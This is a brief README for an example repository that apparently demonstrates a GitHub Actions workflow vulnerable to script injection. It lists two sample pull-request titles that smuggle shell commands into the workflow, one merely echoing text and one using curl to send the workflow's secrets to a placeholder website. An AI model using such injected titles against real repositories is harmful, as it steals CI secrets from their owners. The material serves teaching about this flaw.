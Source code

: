 # Example Repo

This is a super simple example repository!

## Structure
* 'script-injection.yml'
  * workflow vulnerable to script injection
    * Create a PR with title `a";echo Got your secrets"`
      * Echo in workflow execution
    * Create a PR with title `a";curl http:/...MyWebSite...?abc=$YourSecrets"`
      * Extract your secrets and curl to your website